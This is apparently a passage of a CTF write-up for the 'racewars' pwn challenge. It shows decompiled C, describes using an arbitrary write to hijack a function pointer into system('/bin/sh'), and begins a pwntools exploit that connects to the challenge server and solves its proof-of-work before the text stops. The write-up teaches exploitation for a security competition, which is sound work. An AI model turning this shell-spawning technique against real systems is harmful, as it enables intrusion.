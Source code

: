 ```c  
void __fastcall cleaning_up(custom_arena *buffer)  
{  
 custom_arena *ptr; // ST10_8  
 custom_arena *next_arena; // [rsp+18h] [rbp-18h]  
 bin_struct *j; // [rsp+20h] [rbp-10h]  
 function_struct *i; // [rsp+28h] [rbp-8h]

 for ( i = (function_struct *)buffer->functions_list; i; i = (function_struct
*)i->next_func )  
 {  
   if ( i->function )  
     ((void (__fastcall *)(_QWORD))i->function)(i->arg);  
 }  
```  
We just need to place a pointer (using of course our arbitrary write) to a
struct built as follows:  
```  
ptr_to_function  
ptr_to_argument  
0x00  
```

Calculating offsets to system() and "/bin/sh" its easy since libc is provided
with the challenge.

### Final exploit

```python  
#!/usr/bin/env python2

from pwn import *

# context(log_level='debug')

libc = ELF('./libc-2.23.so')  
#p = process(argv=('/home/andrea/ld-2.23.so', '--library-path', '.',
'./racewars'))  
p = remote('2f76febe.quals2018.oooverflow.io', 31337)

def pow_hash(challenge, solution):  
   return hashlib.sha256(challenge.encode('ascii') + struct.pack('<Q',
solution)).hexdigest()

def check_pow(challenge, n, solution):  
   h = pow_hash(challenge, solution)  
   return (int(h, 16) % (2**n)) == 0

def solve_pow(challenge, n):  
   candidate = 0  
   while True:  
       if check_pow(challenge, n, candidate):  
           return candidate  
       candidate += 1

p.recvuntil('Challenge: ')  
challenge = p.recvuntil('\n')[:-1]  
p.recvuntil('n: ')  
n = int(p.recvuntil('\n')[:-1])

print('Solving challenge: "{}", n: {}'.format(challenge, n))

solution = solve_pow(challenge, n)  
print('Solution: {} -> {}'.format(solution, pow_hash(challenge, solution)))  
p.sendline(str(solution))
```